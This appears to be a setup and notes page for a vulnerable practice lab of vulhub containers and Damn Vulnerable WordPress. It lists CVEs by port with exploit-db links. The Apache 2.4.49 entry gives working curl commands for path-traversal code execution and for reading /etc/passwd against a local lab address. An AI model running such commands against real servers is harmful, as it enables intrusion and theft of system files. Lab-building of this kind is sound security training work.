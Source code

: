1. Hidden dir, password attack, **tcp 8511**: [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613). [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```

2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Hidden dir, SQLi, **tcp 8513**: [CVE-2014-3704 Drupalgeddon SQLi Drupal <7.32](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704). 
4. WP: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)
5. SQLi ECShop 4.x, **tcp 8510**: [ECShop 4.x collection_list SQL injection](https://github.com/vulhub/vulhub/tree/master/ecshop/collection_list-sqli)

